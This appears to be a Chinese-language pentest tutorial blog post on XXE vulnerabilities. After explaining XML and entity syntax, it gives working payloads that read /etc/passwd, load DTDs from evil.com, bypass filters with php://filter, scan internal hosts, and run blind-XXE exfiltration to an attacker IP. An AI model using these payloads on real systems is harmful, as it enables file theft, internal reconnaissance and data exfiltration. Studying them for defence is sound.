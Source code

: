 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

### 0x01 XML格式
```xml
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)>
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
<to>Tom</to>
<from>John</from>
<heading>Reminder</heading>
<body>Hi,I’am John</body>
</note>
```

### 0x02 内部声明与外部引用
```xml
<!--内部声明实体-->
<!ENTITY 实体名称 "实体的值">

<!--引用外部实体-->
<!ENTITY 实体名称 SYSTEM "URI">
```

### 0x03 XXE漏洞
* 外部引用时可能会出现漏洞，几种payload：

```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<test>&xxe;</test>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://evil.com/evil.dtd" >
  %d;
]>
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```
```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evil.com/evil.dtd">
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```

* 简单绕过

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
  <!ELEMENT methodname ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<methodcall>
  <methodname>&xxe;</methodname>
</methodcall>
```

* 扫描内网

```xml
<!ENTITY portscan SYSTEM 'http://192.168.2.22:6379/'>
<!ENTITY smb SYSTEM '\\192.168.2.22\C$'>
<!ENTITY sqli SYSTEM 'http://192.168.2.22/a.php?id=-1+union+select+1,2,3--'>
```

* Blind-XXE

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % ttt SYSTEM "php://filter/convert.base64-encode/resource=/flag">
    <!ENTITY % remote SYSTEM "http://Your IP/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %payload;   <!--执行%payload，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>

<!--evil.xml内容：-->
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://Your IP/a.php?content=%ttt;'>">
```
```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
    <!ENTITY % file SYSTEM "file:///C:/1.txt">  
    <!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">  
    %remote;  
    %all;  
    %send;  
]>

<!--evil.xml内容：-->
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```

<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691)

